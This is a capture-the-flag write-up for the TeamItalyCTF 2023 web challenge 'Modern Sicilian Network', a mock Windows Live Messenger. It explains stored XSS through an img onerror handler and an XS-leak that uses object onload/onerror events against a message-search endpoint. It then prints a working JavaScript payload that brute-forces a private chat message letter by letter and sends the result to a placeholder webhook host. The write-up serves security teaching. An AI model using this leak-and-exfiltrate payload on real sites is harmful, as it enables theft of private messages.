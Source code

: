 # TeamItalyCTF 2023

## [web] Modern Sicilian Network (14 solves)
Say hi to the Modern Sicilian Network (MSN), the new exclusive social network for sicilians, made by a sicilian. Having taken inspiration from an old-but-gold social network in both looks and security, the MSN is set to become the future of communications in the whole island. How secure is it though?

Will you be able to steal the flag from the chat between admin Loldemort and cat Tofu?

Flag format: flag{[0-9A-Z]+}

Sites:

http://chat.msn.challs.teamitaly.eu

http://spaces.msn.challs.teamitaly.eu

Author: Leandro Pagano <@Loldemort>

## Overview

This challenge is a small remake of the now defunct Windows Live Messenger and a sort-of remake of its blog platform Spaces. The two services reside on two differents subdomains, `chat.msn.challs.teamitaly.eu` and `spaces.msn.challs.teamitaly.eu`.

After signing up, we can chat with the admin, write our own articles and send them in the chat. The "admin" (a normal user, actually) Loldemort will react to our last message every time we send a "nudge", which includes visiting the link if we sent an article.

![Chat](writeup/Chat.png)

![Spaces](writeup/Spaces.png)


## Exploitation

The flag is in the chat between Loldemort and Tofu, who's an actual cat registered on the service and chatting with Loldemort.

We can put any kind of HTML inside our articles, except for `<script>` tags. This makes no difference, because we can use `<img src=x onerror='...' />`, `<sCript>` or similar to execute any code we want.

Our goal is to exfiltrate a message, and messages are delivered by a WebSocket. This is the CSP of Spaces:

`Content-Security-Policy: default-src 'self' 'unsafe-inline' chat.msn.challs.teamitaly.eu:80`

The WS protocol isn't whitelisted, so we can't connect to the socket, but we can still make HTTP requests to the chat domain. One must note that there's an endpoint in the chat that lets us search messages by content:

`http://chat.msn.challs.teamitaly.eu/api/v1/search/<userid>?query=<query>`

This endpoint returns 200 and a list of IDs of messages containing that query in the chat between the asker and the specified user ID, or 404 if no such message is found. This would let us brute each letter of the flag.

We have to find Tofu's ID, which is straightforward as one of his articles is linked in the welcome article sent by Loldemort, but the chat has no CORS, so how do we read the response?

Now, here's the magic: we can exploit the behaviour of some elements and use them as side channels to know if a query is successful or returns any error code. One way is to use `<object>`'s `onload`/`onerror` handlers.

This is a simple payload inspired by an example on `xsinator.com`, but it can be done in many (and possibly more efficient) ways:

```js
tofu = "79836a09-02f0-4607-9a26-ddb5b241a8f4"
url = `http://chat.msn.challs.teamitaly.eu/api/v1/search/${tofu}?query=`
alphabet = "}0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ"
payload = "flag{"
i = 0
function leak(payload) {
    new Promise((r) => {
        let obj = document.createElement("object")
        obj.data = url+payload
        obj.onload = (e) => {
            e.target.remove()
            continueLeak(true)
        }
        obj.onerror = (e) => {
            e.target.remove()
            continueLeak(false)
        }
        document.body.appendChild(obj)
    })
}
function continueLeak(success) {
    if (success) {
        payload += alphabet[i]
        console.log(payload)
        if (alphabet[i] == "}") {
            window.location = "...WEBHOOK.../?flag="+encodeURIComponent(payload)
        }
        i = 0
    } else {
        i++
    }
    leak(payload + alphabet[i])
}
leak(payload + alphabet[i])
```

The headless was slower than a typical browser and some people found it occasionally unable to complete an exploit in one try. A simple solution was to split the exploit and run it repeatedly, exfiltrating some letters every time.

The flag was `flag{XSM3SS4NG3R}`.